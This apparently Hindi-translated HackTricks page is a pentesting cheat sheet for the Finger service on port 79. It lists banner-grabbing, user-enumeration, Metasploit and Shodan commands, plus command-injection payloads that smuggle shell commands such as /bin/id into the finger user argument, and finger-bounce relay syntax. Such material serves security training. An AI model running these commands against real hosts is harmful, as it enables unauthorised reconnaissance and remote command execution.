 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**कमजोरी मूल्यांकन और पेनिट्रेशन टेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। कहीं से भी 20+ उपकरणों और सुविधाओं के साथ एक पूर्ण पेंटेस्ट चलाएँ जो पुनः खोज से रिपोर्टिंग तक जाते हैं। हम पेंटेस्टर्स को प्रतिस्थापित नहीं करते - हम उन्हें गहराई से खुदाई करने, शेल पॉप करने और मज़े करने के लिए कुछ समय वापस देने के लिए कस्टम उपकरण, पहचान और शोषण मॉड्यूल विकसित करते हैं।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **बुनियादी जानकारी**

**फिंगर** प्रोग्राम/सेवा का उपयोग कंप्यूटर उपयोगकर्ताओं के बारे में विवरण प्राप्त करने के लिए किया जाता है। आमतौर पर, प्रदान की गई जानकारी में **उपयोगकर्ता का लॉगिन नाम, पूरा नाम** और, कुछ मामलों में, अतिरिक्त विवरण शामिल होते हैं। ये अतिरिक्त विवरण कार्यालय का स्थान और फोन नंबर (यदि उपलब्ध हो), उपयोगकर्ता के लॉगिन करने का समय, निष्क्रियता की अवधि (आइडल टाइम), उपयोगकर्ता द्वारा पढ़ा गया अंतिम ईमेल, और उपयोगकर्ता की योजना और परियोजना फ़ाइलों की सामग्री शामिल हो सकते हैं।

**डिफ़ॉल्ट पोर्ट:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **सूचना संग्रहण**

### **बैनर ग्रैबिंग/बुनियादी कनेक्शन**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **उपयोगकर्ता गणना**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
वैकल्पिक रूप से आप [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) से **finger-user-enum** का उपयोग कर सकते हैं, कुछ उदाहरण:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap डिफ़ॉल्ट स्क्रिप्ट का उपयोग करके स्क्रिप्ट निष्पादित करता है**

### Metasploit Nmap की तुलना में अधिक तरकीबें का उपयोग करता है
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## कमांड निष्पादन
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[एक सिस्टम का उपयोग करें जैसे कि एक फिंगर रिले](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**कमजोरी मूल्यांकन और पेनटेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। कहीं से भी 20+ उपकरणों और सुविधाओं के साथ एक पूर्ण पेंटेस्ट चलाएँ जो पुनः खोज से रिपोर्टिंग तक जाती हैं। हम पेंटेस्टर्स का स्थान नहीं लेते - हम उन्हें गहराई से खुदाई करने, शेल पॉप करने और मज़े करने के लिए कुछ समय वापस देने के लिए कस्टम उपकरण, पहचान और शोषण मॉड्यूल विकसित करते हैं।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
